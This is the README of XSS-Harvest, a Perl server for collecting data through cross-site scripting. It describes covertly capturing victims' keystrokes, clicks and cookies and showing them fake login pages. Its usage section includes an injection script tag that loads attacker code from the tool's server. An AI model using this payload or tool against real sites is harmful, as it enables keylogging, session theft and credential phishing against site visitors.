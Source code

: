 # XSS-Harvest
0.2.x
by Geoff Jones - 0x90.co.uk
http://www.0x90.co.uk/2011/07/harvesting-cross-site-scripting-xss.html

## About
XSS-Harvest is multi-threaded pre-forking web server written in Perl, and requires no dependencies other than a couple of common Perl modules; you do not need a web server or database to use this tool. Before going into the detail, I'll list the high level functionality below:

* Infection script adds relevant event listeners (keystrokes, onload() and mouse clicks) to the vulnerable page and sets up communication with the XSS-Harvest server.
* Any key entered will be sent covertly to the server.
* Any mouse click performed will be analysed and the data covertly sent to the server.
* Optionally 'redress' the vulnerable page to display a different page on the same subdomain - e.g. a login form.
* If redressing the victim's browser, allow subsequently loaded pages to be also 'infected' - assuming they don't break the same-origin policy (i.e. they're on the same subdomain).
* Keeps track of victims for the lifetime of the XSS-Harvest cookie (future visits are recognised as a returning victim).
* Each victim has a separate history file containing all events, cookies and keystrokes. 
* Server console displays real time data received (due to multi-threaded nature, keystrokes are displayed as '.' characters to avoid confusion).
* Tested in IE6-9 (reflected XSS protection in IE9 will limit exploitation to stored XSS only in most cases), FF5, Chrome and various mobile browsers (Safari and Android). Please let me know your success with other browsers.
* Overcomes browser oddities, such as Internet Explorer throttling requests to the same URL when exfiltrating keystrokes.

## Dependancies
Requires the following dependencies:
HTTP::Server::Simple::CGI, Digest::MD5, Time::Local, Getopt::Std, Net::Server::PreFork

sudo apt-get install libhttp-server-simple-perl
sudo apt-get install libdigest-md5-file-perl
sudo apt-get install libtime-local-perl
sudo apt-get install libnet-server-perl

## Usage
Start server (with redress:)

* ./xss-harvest.pl -l -r http://vulnerablepage.local/login.html

XSS:

* \<script src="http:\/\/<serverip>:<serverport>\/i\"\>\</script\>

